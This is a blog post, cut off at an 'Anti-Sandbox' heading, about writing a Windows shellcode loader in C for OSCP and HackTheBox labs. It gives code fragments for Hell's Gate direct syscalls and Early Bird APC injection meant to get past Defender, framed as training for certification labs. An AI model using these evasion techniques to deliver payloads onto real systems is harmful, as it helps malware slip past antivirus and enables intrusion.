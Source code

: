 ```yaml
---
title: Windows Shellcode Loader in C
description: Writing a loader for use in OSCP using lessons learned from MalDev Academy
date: 2023-10-20 02:45:01-0700
categories:
    - Malware
tags:
    - malware
    - windows
image: img/cover.png
---
```


## Opening Thoughts

Over the past couple months I have gone through the Zero2Automated malware RE course, and the Malware Development course from MalDev Academy.
The malware RE course is pretty easy to practice as there are plenty of samples and challenges online to reverse, but finding a challenge for malware development is a bit trickier.
Fortunately, I ran into some problems while studying for the OSCP exam and doing HackTheBox.
Many of the boxes running Windows 10 were able to detect `msfvenom`, mimikatz, and other malicous powershell scripts which made it very difficult to get a reverse shell on what should have been very simple boxes.
The OSCP teaches to use `Shellter`, but even this tool was failing to bypass Defender.
At this point I figured it'd be a good investment to build my own loader so that I wouldn't ever have to worry about this issue again.
I had actually done this project once in C++, but hindsight is 20/20 and I arrived at the conclusion that writing it in C is the best option.
My reasoning is that a loader isn't super complicated, so the organization and object oriented approach that C++ offers doesn't really offer any benefit.
And the added overhead from C++ just makes the final executable larger.
Since I'll be working on boxes where the network bandwidth isn't great, a small and portable executable is better.

## Design

I was talking to this one person who's been developing game cheats for over 10 years and he told me that all you really need is memory injection and streaming relocations.
Streaming relocations is a bit overkill for this project, so I'll skip that but the injection is definitely optimal.
In the first version I had used APC injection, and ran into issues with my shell dying once the original process terminated.
I'm sure I could fix it, but since this is supposed to be an improvement over my `1.0` loader I want to go with remote APC injection, aka Early Bird APC injection.
I will also need a quick and easy way of hashing strings, and encrypting my `msfvenom` payloads.
For these requirments I'll just use the same code snippets as taught in the MalDev course since crypto isn't one of my strengths.

## Hell's Gate

Window's syscall's are the API's that carry out the actions when a WinAPI is called.
The example given in the course is that `VirtualAlloc` and `VirtualAllocEx` use the `NtAllocateVirtualMemory` to carry out their actions.
All the syscalls return an `NTSTATUS` value that indicates an error code.
We can use the following docs since most syscalls aren't documented by Microsoft:

- [Undocumented NTInternals](https://web.archive.org/web/20230401045934/http://undocumented.ntinternals.net/)
- [ReactOS's NTDLL Reference](https://doxygen.reactos.org/dir_a7ad942ac829d916497d820c4a26c555.html)

The main advantage to using syscalls is that we can evade hooked WinAPI.
Syscalls will have the following structure:

```asm
mov r10, rcx
mov eax, SSN
syscall
```

SSN referes to the syscall service number that the kernel uses to distinguish one syscall from another.
It's important to note that these values will differ for the same syscall across different OS and OS versions.

Hell's Gate is a technique that can read through `ntdll.dll` to find and execute syscalls.
It's a pretty complex technique that I won't go over here since that isn't the purpose of this post.
But you can read about it [here](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf).
We can follow the guidance in that paper to get the technique working.
Long story short, we will add a `VX_TABLE_ENTRY` to our `VX_TABLE` for every syscall we want to use:

```c
typedef struct _VX_TABLE_ENTRY {
    PVOID pAddress;
    DWORD dwHash;
    WORD  wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
    VX_TABLE_ENTRY NtCreateUserProcess;
    VX_TABLE_ENTRY <some_syscall>;
}
```
This table will be populated via the `GetVxTableEntry(...)` function given in the paper.

Then `HellsGate` function just loads up the correct SSN to be called, and then `HellDescent` actually makes the call:

```c
HellsGate(g_Sys.NtSyscallEntry.wSystemCall);
HellDescent(arg1, arg2, arg3, ...);
```

## Early Bird APC Injection

[Asynchronous Procedure Calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) (APC's) are functions that execute async in the context of a specific thread.
We can queue an APC to a thread, and the next time the thread is scheduled, it will run the APC function.
In order to run an APC generated by an application, the thread we use must be in an alertable state, which just means that it is in a "wait" state.
The early bird part of this technique just refers to a remote process instead of the local one.
So we would do the following:

1. Spawn process in suspended state.
2. Write payload to address space of suspended process.
3. Get a handle to the suspended thread.
4. Pass in address of payload new address, and handle to `QueueUserAPC`.
5. Resume thread and wait for payload to run.

Something interesting to note is that normally you'd spawn the process like this:

```c
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);

CreateProcessA(
    NULL, 
    lpPath,
    NULL,
    NULL,
    FALSE,
    DEBUG_PROCESS // dwCreationFlags,
    NULL,
    NULL,
    &StartupInfo,
    &ProcInfo)
```

However I am using the syscall `NtCreateUserProcess`, so I need to use a slightly different calling convention.

```c
#define THREAD_CREATE_FLAGS_CREATE_SUSPENDED 0x00000001 // NtCreateUserProcess & NtCreateThreadEx

HellsGate(g_Sys.NtCreateUserProcess.wSystemCall);
HellDescent(
    hProcess,
    hThread,
    PROCESS_ALL_ACCESS,
    NULL,
    NULL,
    NULL,
    THREAD_CREATE_FLAGS_CREATE_SUSPENDED,
    UppProcessParameters,
    &psCreateInfo,
    pAttributeList
);
```
To learn more about how `NtCreateUserProcess` works I recommend this [blog](https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html).

Now we just write our payload into the memory space of this process.
For this, we need to update our syscall table structure with 3 more syscalls:

```c
typedef NTSTATUS(NTAPI* fnNtAllocateVirtualMemory)(
    HANDLE      ProcessHandle,
    PVOID*      BaseAddress,
    ULONG_PTR   ZeroBits,
    PSIZE_T     RegionSize,
    ULONG       AllocationType,
    ULONG       Protect,
);
typedef NTSTATUS(NTAPI* fnNtProtectVirtualMemory)(
    HANDLE  ProcessHandle,
    PVOID*  BaseAddress,
    PULONG  NumberOfBytesToProtect,
    ULONG   NewAccessProtection,
    PULONG  OldAccesProtection
);
typedef NTSTATUS(NTAPI* fnNtWriteVirtualMemory)(
    HANDLE  ProcessHandle,
    PVOID   BaseAddress,
    PVOID   Buffer,
    ULONG   NumberOfBytesToWrite,
    PULONG  NumberOfBytesWritten
);

```

## Anti-Sandbox


